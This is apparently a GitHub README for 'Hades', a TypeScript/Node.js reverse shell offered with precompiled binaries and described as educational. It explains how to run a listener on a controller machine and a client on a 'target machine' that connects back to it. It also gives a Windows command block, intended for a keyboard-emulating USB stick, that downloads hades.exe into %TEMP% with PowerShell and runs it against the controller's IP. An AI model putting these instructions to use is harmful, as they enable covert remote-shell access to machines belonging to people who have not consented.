 # Hades
Simple reverse shell developed for education purposes.

This program is written in Typescript and is made to run with [Node.js](https://nodejs.org/). Some libraries are required, [see](#libs) the list of libraries used in this project.

![image info](demo.png)

## How to use
### Disclaimer
- This reverse shell is for academic purposes, the use of this software is your responsibility.
- This software is still in development, not all the features are implemented yet.

### Use with Node.js
1) Run `npm install`
2) Run `node src/main.js -a [port to listen on]` on the main machine.
3) Run `node src/main.js -c [admin's ip] [admin's port]` on a target machine.

### Use a compiled version (Recommended)
1) Garb a compiled version of the program.
2) Run `hades -a [port to listen on]` on the main machine.
3) Run `hades -c [admin's ip] [admin's port]` on a target machine.

## Compile using Nexe
To compile from source, you will need to follow the instructions listed below.

1) Run `npm install`
2) [Transpile](https://code.visualstudio.com/docs/typescript/typescript-compiling) all `.ts` files into `.js`.
3) Install [Nexe](https://github.com/nexe/nexe).
4) Run `nexe src/main.js -o bin/hades -t "linux-x64-14.15.3" -r "src/**.js"`.
5) Change `linux-x64` with the os you are using following by the [architecture](https://linuxconfig.org/what-is-my-architecture-is-my-cpu-64-bit-or-32-bit#:~:text=The%20best%20way%20to%20quickly,default%20on%20all%20Linux%20distros.) of your CPU.

Note that the program is already compiled in the `bin` directory, and LTS versions can be found in the Releases section.

## Libs
Here is the list of used libraries, you can download all of them using `npm install`.
- `Axios` - Used to send requests.
- `Body-parser` - Used to parse responses.
- `WSS` - Used for socket connections.
- `Express` - Used to setup servers.

## Run from command line
This can be usefull for exemple if you want to use a USB stick which emulate a keyboard when you plug it into a machine.

### Window
Copy and paste the commands in a cmd on a target machine.

```bash
cd %TEMP%
powershell wget "https://github.com/AntoineBRTL/Hades/releases/download/1.0/hades.exe" -outfile "h.exe"
h.exe -c localhost
exit
```

Change `localhost` with the ip of the main machine.

### Linux 
Not done yet

### MacOS
Not done yet
